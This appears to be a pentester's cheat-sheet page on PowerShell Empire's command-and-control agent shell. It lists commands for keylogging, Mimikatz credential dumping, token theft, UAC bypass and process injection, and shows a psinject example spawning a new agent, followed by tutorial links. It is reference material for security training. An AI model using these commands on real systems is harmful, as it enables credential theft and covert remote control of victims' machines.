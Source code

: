 # Interactive Shell

Search Tag(s): #empire #command-and-control #interactive-shell #help-menu

## 01 - Help Menu

```
(Empire: agents) > interact <AGENT_NAME>
(Empire: AGENT_NAME) > help

┌Help Options────┬─────────────────────────────────────┬───────────────────────────────┐
│ Name           │ Description                         │ Usage                         │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ display        │ Display an agent property           │ display <property_name>       │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ download       │ Tasks an the specified agent to     │ download <file_name>          │
│                │ download a file.                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ help           │ Display the help menu for the       │ help                          │
│                │ current menu                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ history        │ Display last number of task results │ history [<number_tasks>]      │
│                │ received.                           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ info           │ Display agent info.                 │ info                          │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ killdate       │ Set an agent's killdate             │ killdate <kill_date>          │
│                │ (01/01/2020)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ proxy          │ Proxy management menu for           │ proxy                         │
│                │ configuring agent proxies           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_command │ "Execute a function in the          │ shell_command <script_cmd>    │
│                │ currently imported PowerShell       │                               │
│                │ script."                            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_import  │ Uploads a PowerShell script to the  │ script_import                 │
│                │ server and runs it in memory on the │ <local_script_location>       │
│                │ agent. Use '-p' for a file          │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shell          │ Tasks an the specified agent to     │ shell <shell_cmd>             │
│                │ execute a shell command.            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sleep          │ Tasks an the specified agent to     │ sleep <delay> <jitter>        │
│                │ update delay (s) and jitter (0.0 -  │                               │
│                │ 1.0)                                │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ update_comms   │ Update the listener for an agent.   │ update_comms <listener_name>  │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ upload         │ Tasks an the specified agent to     │ upload <local_file_directory> │
│                │ upload a file. Use '-p' for a file  │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ view           │ View specific task and result       │ view <task_id>                │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc            │ Launch a VNC server on the agent    │ vnc                           │
│                │ and spawn a VNC client              │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc_client     │ Launch a VNC client to a remote     │ vnc_client <address> <port>   │
│                │ server                              │ <password>                    │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ workinghours   │ Set an agent's working hours        │ workinghours <working_hours>  │
│                │ (9:00-17:00)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ whoami         │ Tasks an agent to run the shell     │ whoami                        │
│                │ command 'whoami'                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ ps             │ Tasks an agent to run the shell     │ ps                            │
│                │ command 'ps'                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sc             │ Tasks the agent to run module       │ sc                            │
│                │ powershell/collection/screenshot.   │                               │
│                │ Default parameters include: Ratio:  │                               │
│                │ 80                                  │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ keylog         │ Tasks the agent to run module       │ keylog                        │
│                │ powershell/collection/keylogger.    │                               │
│                │ Default parameters include: Sleep:  │                               │
│                │ 1                                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sherlock       │ Tasks the agent to run module       │ sherlock                      │
│                │ powershell/privesc/sherlock.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ mimikatz       │ Tasks the agent to run module power │ mimikatz                      │
│                │ shell/credentials/mimikatz/logonpas │                               │
│                │ swords.                             │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ psinject       │ Tasks the agent to run module       │ psinject <Listener> <ProcId>  │
│                │ powershell/management/psinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ revtoself      │ Tasks the agent to run module       │ revtoself                     │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ RevToSelf: True                     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shinject       │ Tasks the agent to run module       │ shinject <Listener> <ProcId>  │
│                │ powershell/management/shinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ spawn          │ Tasks the agent to run module       │ spawn <Listener>              │
│                │ powershell/management/spawn.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ steal_token    │ Tasks the agent to run module       │ steal_token <ProcessID>       │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ ImpersonateUser: True               │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ bypassuac      │ Tasks the agent to run module power │ bypassuac <Listener>          │
│                │ shell/privesc/bypassuac_eventvwr.   │                               │
└────────────────┴─────────────────────────────────────┴───────────────────────────────┘

(Empire: WindowsWS01) >
```

## 02 - Usage

`(Empire: AGENT_NAME) > ipconfig`

`(Empire: AGENT_NAME) > powershell_situational_awareness_network_arpscan`

### 2.1 - Process Manipulation

- Syntax

`(Empire: AGENT_NAME) > psinject <listener> <pid>`

```
(Empire: AGENT_NAME) > psinject http 460
[*] Tasked admin to run Task 3
[+] New agent F38APL75 checked in
[*] Sending agent (stage 2) to F38APL75 at 10.0.2.4
(Empire: AGENT_NAME) > interact F38APL75
```

---
## References

* [SecurityNik: Beginning Powershell Empire Attack](https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html)

* [HackMag: Powershell Empire Modules](https://hackmag.com/security/powershell-empire/)

* [Hacking Articles: Empire For Pentester Active Directory Enumeration](https://www.hackingarticles.in/empire-for-pentester-active-directory-enumeration/)

* [Hacking Articles: Powershell Empire For Pentester Mimikatz Module](https://www.hackingarticles.in/powershell-empire-for-pentester-mimikatz-module/)

* [Hacking Articles: OSX Exploitation with Powershell Empire](https://www.hackingarticles.in/osx-exploitation-with-powershell-empire/)

* [Hacking Articles: Hacking with Empire Powershell Post Exploitation Agent](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)

* [Hacking Articles: Data Exfiltration Using Powershell Empire](https://www.hackingarticles.in/data-exfiltration-using-powershell-empire/)

* [HoldMyBeer: Part 2 Intro to Threat Hunting Understanding the Attacker Mindset with Powershell Empire and the Mandiant Attack Lifecycle](https://holdmybeersecurity.com/2020/01/23/part-2-intro-to-threat-hunting-understanding-the-attacker-mindset-with-powershell-empire-and-the-mandiant-attack-lifecycle/)

* [SnapLabs: Command and Control with Powershell Empire part 1](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt1)

* [SnapLabs: Command and Control with Powershell Empire part 2](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt2)

* [SnapLabs: Command and Control with Powershell Empire part 3](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt3)

* [SnapLabs: Lateral Movement Methods and Good Practices](https://www.snaplabs.io/insights/lateral-movement-methods-and-good-practices)

* [Empire Module Library](https://www.infosecmatter.com/empire-module-library/)